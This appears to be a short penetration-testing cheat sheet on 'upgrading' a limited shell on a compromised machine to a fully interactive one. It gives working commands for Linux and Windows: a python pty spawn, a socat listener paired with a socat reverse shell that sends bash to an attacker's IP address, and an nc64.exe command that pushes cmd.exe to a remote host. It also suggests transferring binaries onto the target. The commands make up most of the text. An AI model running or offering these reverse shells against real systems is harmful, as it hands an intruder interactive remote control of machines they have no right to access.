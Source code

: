 # Shell Upgrading

Upgrade a semi-interactive shell to a fully interactive shell.

## Linux

### Method 1 - Using python3's pty module:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

You can also create a binary version of this short script using [PyInstaller](https://www.pyinstaller.org/). That way python will not need to be installed on the target machine, but you will have to create different binaries for different architectures.

### Method 2 - Create a new reverse shell with socat:

Listen for the shell on your own machine:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:5555,reuseaddr
```

Transfer the socat binary to the target and send a reverse shell to your machine (10.0.0.42):
```bash
chmod +x ./socat
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.42:5555
```

You can get a staticly linked binary here: https://github.com/andrew-d/static-binaries


## Windows

Download nc.exe or nc64.exe
```powershell
nc64.exe 10.10.14.15 8888 -e cmd.exe
```

A powershell reverse shell one-liner might also do the trick.
